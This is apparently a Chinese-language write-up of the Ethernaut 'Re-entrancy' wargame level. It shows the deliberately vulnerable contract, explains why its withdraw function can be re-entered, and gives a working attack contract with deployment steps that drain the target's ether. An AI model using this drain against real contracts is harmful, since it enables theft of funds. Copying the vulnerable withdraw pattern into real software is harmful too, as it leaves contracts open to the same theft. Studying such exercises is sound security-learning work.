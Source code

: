 ```yaml
---
layout: post
title: Reenctrancy
tags: [ethernaut]
---
```


# Reenctrancy
关于重入攻击，如DAO事件
```solidity
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

### 代码分析
```solidity
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```
withdraw(uint256)方法中，先向msg.sender转账，后减少其balance；如果msg.sender方法为一个合约，并且其有
fallback函数，并且在fallback函数中又调用了该合约的withdraw(uint256)方法，那么msg.sender就能一直从该合约
窃取eth（因为整个过程中msg.sender的balance并没有减少），
*msg.sender.call()会将剩余的gas全部传入；msg.sender.transfer(value)则仅能使用2300gas*

### 攻击合约
[官方答案](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/attacks/ReentranceAttack.sol)
注意：如果合约balance较大而自己donate的balance较小时，则可以进行循环调用，一点一点地减少合约的金额。
（可以引发out of gas 或者达到call最大深度等错误）  
如：
```solidity
pragma solidity ^0.4.18;

import '../levels/Reentrance.sol';

contract ReentranceAttack {

  Reentrance target;

  function ReentranceAttack(address _target) public payable {
    target = Reentrance(_target);
  }

  function() public payable {
    uint256 amount = 1 ether; // your donate balance
    if (target.balance > amount) {
        target.withdraw(amount);
    } else {
        target.withdraw(target.balance);
    }
    
  }
  
  function attack() public {
     uint256 amount = 1 ether;
     target.withdraw(amount);
  }
}
```

### 攻击方法
1. 部署攻击合约
2. 调用Reentrance.donate(1 ether)
3. 调用攻击合约的attack方法
